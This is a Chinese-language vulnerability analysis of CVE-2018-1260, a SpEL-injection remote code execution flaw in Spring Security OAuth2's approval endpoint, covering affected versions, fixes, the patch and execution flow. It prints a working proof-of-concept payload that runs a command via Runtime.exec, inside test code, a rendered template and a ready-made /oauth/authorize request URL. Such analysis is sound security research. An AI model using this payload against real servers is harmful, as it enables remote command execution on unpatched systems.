

# Spring Security OAuth2远程代码执行（CVE-2018-1260）漏洞分析


## 漏洞编号

CVE-2018-1260

## 漏洞信息

### 漏洞等级

严重

### 漏洞描述

在Spring Security OAuth 2.x老的版本中，恶意用户可以向授权服务器发起授权请求，当转发至授权审批终端 *（Approval Endpoint）* 时，会导致远程代码执行漏洞的攻击。

攻击发生需要满足的条件：

1. 被攻击端作为授权服务器时 *（如使用了`@EnableAuthorizationServer`注解）*
1. 使用了默认审批终端，或重写的审批终端逻辑中使用`SpelExpressionParser`等对输出内容进行SPEL表达式解析
1. 未配置Scopes

### 受影响版本

1. Spring Security OAuth 2.3到2.3.2
1. Spring Security OAuth 2.2到2.2.1
1. Spring Security OAuth 2.1到2.1.1
1. Spring Security OAuth 2.0到2.0.14
1. 已经停止支持的老版本

### 修复建议

1. Spring Security OAuth 2.3.x升级到2.3.3
1. Spring Security OAuth 2.2.x升级到2.2.2
1. Spring Security OAuth 2.1.x升级到2.1.2
1. Spring Security OAuth 2.0.x升级到2.0.15
1. 其他或更早期版本升级到相关支持的分支版本

## 漏洞分析

### 补丁对比

通过对漏洞描述的理解，我们可以猜测漏洞触发点应该在Approval Endpoint附近。

对比[修复前后两个版本](https://github.com/spring-projects/spring-security-oauth/compare/2.2.1.RELEASE...2.2.2.RELEASE)：



分析其中的提交信息和有变更的文件名，可以很快定位到漏洞相关信息的[Commit](https://github.com/spring-projects/spring-security-oauth/commit/8e9792c1963f1aeea81ca618785eb8d71d1cd1d2)。

修改代码比较多，就不贴图了。核心的修改内容是在`WhitelabelApprovalEndpoint`中使用直接生成HTML字符串 *（调用了`HtmlUtils.htmlEscape()`对用户可控的输出值进行URL编码）* 代替了原来使用`SpelView`解析模板的方式，并且彻底删除了`SpelView`。

*（『Endpoint』、『SpelView』这些关键字，有没有让你想起Spring Security OAuth以前的一个RCE？没错，就是[CVE-2016-4977](https://pivotal.io/security/cve-2016-4977)。不太了解的同学可以去回顾回顾）*

同时，官方也在修复版本中增加了一个对这个漏洞的测试用例，贴心的把控制点和PoC都告诉我们了。

赶紧搭个环境看看。

### 环境搭建

结合补丁对比分析得到的结论，我们可以搭建两种环境帮助对漏洞的理解和分析：

1. spring-security-oauth源代码调试环境
    - 需要对Spring Security和Spring Security OAuth框架有一定的了解（原理和执行流程）
1. spring-security-oauth示例项目环境
    - 参考先知上的[另一篇分析文章](https://xz.aliyun.com/t/2330)

本文使用第一种：

- IDE：IDEA
- JDK：1.8
- Project：spring-security-oauth-2.2.1.RELEASE

在`WhitelabelErrorEndpointTests`的测试集中增加2.2.2.RELEASE新增的测试用例，关键代码如下：

```java
parameters.put("client_id", "client");
HashMap<String, Object> model = new HashMap<String, Object>();
model.put("authorizationRequest", createFromParameters(parameters));
model.put("scopes", Collections.singletonMap("${T(java.lang.Runtime).getRuntime().exec(\"calc\")}", "true"));
ModelAndView result = endpoint.getAccessConfirmation(model, request);
result.getView().render(result.getModel(), request , response);
```

### 流程跟踪

调用`WhitelabelErrorEndpoint.getAccessConfirmation()`，传入携带`scopes`键值对 *（我们的PoC在里面）* 的`model`。`createTemplate()`在创建页面模板时，会判断是否存在`scopes`，是则调用`createScopes()`将其值转换为HTML字符串，并替换模板中的`%scopes%`关键字。

在返回`ModelAndView`前，用模板字符串创建了一个`SpelView`：

```java
public SpelView(String template) {
    this.template = template;
    this.prefix = new RandomValueStringGenerator().generate() + "{";
    this.context.addPropertyAccessor(new MapAccessor());
    this.resolver = new PlaceholderResolver() {
        public String resolvePlaceholder(String name) {
            Expression expression = parser.parseExpression(name);
            Object value = expression.getValue(context);
            return value == null ? null : value.toString();
        }
    };
}
```

`resolver`实现了`PlaceholderResolver.resolvePlaceholder()`，在其中对传入的参数进行SPEL表达式解析。

回到测试用例，调用`SpelView.render()`对传入的`model`进行渲染，渲染什么？其实就是递归查找模板字符串中所有的SPEL表达式，并调用`PlaceholderResolver.resolvePlaceholder()`解析得到它的值。

好的，重点来了。

当解析到我们传入的`T(java.lang.Runtime).getRuntime().exec("calc")`时，计算器自然也就弹出来了。

## 一些你可能不太感兴趣的小细节

### 关于CVE-2016-4977的补丁

为什么CVE-2016-4977的补丁对这个漏洞没有效果？

我们先回顾一下CVE-2016-4977的大致细节。

为了修复CVE-2016-4977，Spring Security OAuth在2.0.10.RELEASE及之后版本的`SpelView`中，将模板字符串内所有的`${}`替换成了`[6位随机字符串]{}` *（详见[CVE-2016-4977补丁](https://github.com/spring-projects/spring-security-oauth/commit/fff77d3fea477b566bcacfbfc95f85821a2bdc2d)）* ，并将其作为SPEL表达式标识符，提取其包裹的字符串 *（CVE-2016-4977中是`errorSummary`）* 进行解析。

当递归解析到内部`${}`字符串 *（即恶意用户传入的PoC部分）* 时，由于此时用于识别SPEL表达式的标识符已经不是`${}`了，且6位字符串的随机性也使得用户无法猜测其当前值，所以恶意用户传入的数据无法再被当成SPEL表达式来执行。

也可以这么说，CVE-2016-4977的补丁主要用于防止`SpelView`中任何递归形式的表达式的解析被恶意利用。

而在这个漏洞中，PoC内容被直接拼接进模板字符串中被解析，所以不受6位随机字符串的影响。

Spring官方一气之下，把`SpelView`给删了。

### 一个被连续执行三次的RCE

由于每个Scope会被解析成一个包含两个成组的`radio`HTML元素，所以在解析之前，模板字符串是长成这样的：

```html
<html>
    <body>
        <h1>OAuth Approval</h1>
        <p>Do you authorize 'xJPRnj{authorizationRequest.clientId}' to access your protected resources?</p>
        <form id='confirmationForm' name='confirmationForm' action='xJPRnj{path}/oauth/authorize' method='post'>
            <input name='user_oauth_approval' value='true' type='hidden'/>
            <ul>
                <li>
                    <div class='form-group'>
                        xJPRnj{T(java.lang.Runtime).getRuntime().exec("calc")}:
                        <input type='radio' name='xJPRnj{T(java.lang.Runtime).getRuntime().exec("calc")}' value='true' checked>Approve</input>
                        <input type='radio' name='xJPRnj{T(java.lang.Runtime).getRuntime().exec("calc")}' value='false'>Deny</input>
                    </div>
                </li>
            </ul>
            <label><input name='authorize' value='Authorize' type='submit'/></label>
        </form>
    </body>
</html>
```

看到了什么？是的，两个`radio`的`name`属性值也变成了我们的PoC，所以在运行完测试用例之后，会弹出三个计算器。

另外，Scopes是一个集合，因此理论上我们也可以一次传入多个SPEL表达式：

```java
HashMap<String, Object> scopes = new HashMap<String, Object>();
scopes.put("${T(java.lang.Runtime).getRuntime().exec(\"calc\")}", "true");
scopes.put("${T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")}", "false");
model.put("scopes", scopes);
```

这次是六个计算器。

### Web应用环境中的Scopes值

分析到这里，对于不太了解Spring Security OAuth的同学，会有一个疑问，这个漏洞到底怎么利用？

虽然`WhitelabelApprovalEndpoint.getAccessConfirmation()`配置了`@RequestMapping()`注解，可以访问/oauth/confirm_access直接进入该方法，但方法中判断并获取scopes是通过`model.get()`或`request.getAttribute()`，无法通过URL的请求参数对其传参赋值。

简单介绍一下其相关流程：

1. 当客户端向授权服务器发起授权请求时 *（/oauth/authorize）* ，会将请求参数中`scope`的值转换为`Set`集合封装进`AuthorizationRequest`中，校验应用配置的Scopes是否为空或所有Scope都有效
1. 授权服务器内部重定向请求至/oauth/confirm_access，之后的事就不用再多说了吧

因此可以这样请求：

http://domain.com/oauth/authorize?client_id=[client]&response_type=[type]&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc%22%29%7D&redirect_uri=[uri]

需要注意的是，/oauth/authorize和/oauth/confirm_access默认都有认证保护。

## 参考

1. [CVE-2018-1260](https://pivotal.io/security/cve-2018-1260)
1. [CVE-2016-4977](https://pivotal.io/security/cve-2016-4977)
1. [CVE-2016-4977: RCE IN SPRING SECURITY OAUTH 1&2](http://secalert.net/#CVE-2016-4977)